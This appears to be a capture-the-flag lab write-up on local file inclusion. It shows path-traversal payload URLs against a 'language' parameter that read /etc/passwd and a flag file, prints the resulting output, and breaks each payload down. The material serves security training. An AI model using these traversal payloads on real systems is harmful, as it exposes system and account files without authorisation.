




## Exercises

### Question 1 — Using the file inclusion find the name of a user on the system that starts with "b".

Landed on the target page.



Changed the language to Spanish via the dropdown, which confirmed the page content is being pulled dynamically based on a `language` parameter:

```
http://154.57.164.64:33512/index.php?language=es.php
```



With the `language` parameter confirmed as the inclusion point, used path traversal to read `/etc/passwd`:

```
http://154.57.164.64:33512/index.php?language=/../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:103:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:104:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:105:107::/nonexistent:/usr/sbin/nologin sshd:x:106:65534::/run/sshd:/usr/sbin/nologin —REDACTED—:x:1000:1000::/home/—REDACTED—:/bin/sh
```

**Breakdown:**

- `/` the leading slash on the payload, placed before the traversal sequence, so the rest of the path is interpreted consistently regardless of what the application concatenates in front of it
- `../../../../` four parent-directory traversals, climbing out of whatever subdirectory the `language` parameter is normally resolved relative to, up toward the filesystem root
- `etc/passwd` the target file once traversal has escaped the web root — a standard, world-readable file on Linux systems listing local accounts



The last line of the output, `—REDACTED—:x:1000:1000::/home/—REDACTED—:/bin/sh`, is the only entry starting with "b" that is a real user account rather than a system/service account (`bin`, `backup` are system accounts, not login users with a UID in the normal user range).

**Answer:** `—REDACTED—`

### Question 2 — Submit the contents of the flag.txt file located in the /usr/share/flags directory.

Reused the same traversal technique, pointing it at the flag's location instead of `/etc/passwd`:

```
http://154.57.164.64:33512/index.php?language=/../../../../usr/share/flags/flag.txt

—REDACTED—
```

**Breakdown:**

- `/../../../../` the same leading-slash-plus-traversal sequence used in Question 1, climbing back out to the filesystem root
- `usr/share/flags/flag.txt` the absolute path to the flag file, as given in the exercise brief



**Answer:** `—REDACTED—`